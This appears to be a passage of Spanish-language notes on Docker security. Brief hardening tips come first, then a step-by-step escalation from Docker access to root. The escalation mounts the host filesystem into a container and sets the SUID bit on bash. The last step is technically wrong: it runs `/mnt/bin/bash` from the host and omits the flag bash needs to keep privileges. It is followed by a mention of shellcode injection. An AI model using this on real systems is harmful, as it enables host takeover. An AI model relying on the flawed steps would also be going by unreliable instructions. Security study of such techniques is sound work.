     - Limita los recursos que un contenedor puede consumir y evita que afecte al host.
- **Imágenes seguras**:
    
    - Utiliza imágenes de contenedor seguras y verifica su integridad antes de implementarlas.
- **Actualizaciones regulares**:
    
    - Mantén actualizado el sistema operativo y Docker para evitar vulnerabilidades conocidas.

### 5. **Pruebas de seguridad**

- Realiza pruebas de penetración regulares en tus contenedores para identificar posibles vulnerabilidades.
- Considera herramientas como **Docker Bench for Security** para evaluar la configuración de seguridad de Docker.

-----

1. **Montar el sistema de archivos del host**:
    
    - Ejecuta un contenedor Docker con acceso al sistema de archivos del host. Esto se puede hacer utilizando la opción `-v` para montar el directorio raíz (`/`) del host en el contenedor.
    
    
    `docker run --rm -it -v /:/mnt ubuntu`
    
    En este ejemplo, se está utilizando una imagen de Ubuntu, pero puedes usar cualquier otra imagen que prefieras.
    
2. **Acceder al sistema de archivos montado**:
    
    - Una vez dentro del contenedor, navega al directorio montado.
    
    
    `cd /mnt`
    
3. **Establecer permisos SUID en Bash**:
    
    - Localiza la instalación de Bash en el sistema montado, generalmente en `/bin/bash`. Luego, usa el comando `chmod` para establecer el bit SUID, lo que permite que la shell se ejecute con los privilegios del propietario (en este caso, root).
    

    
    `chmod u+s /mnt/bin/bash`
    
4. **Ejecutar Bash con privilegios elevados**:
    
    - Ahora puedes salir del contenedor y ejecutar la shell de Bash con privilegios de root.
    
    
    
    `/mnt/bin/bash`
    
    Al ejecutar este comando, obtendrás una shell que te permitirá ejecutar comandos como root, lo que facilita la escalada de privilegios.



Otra forma de escalada de privilegios podría ser la inyección de shellcode en un servidor abierto que se ejecute con permisos de usuario root a través de contenedores. Este enfoque implica aprovechar vulnerabilidades en aplicaciones o servicios que están expuestos y que permiten la ejecución de código arbitrario.
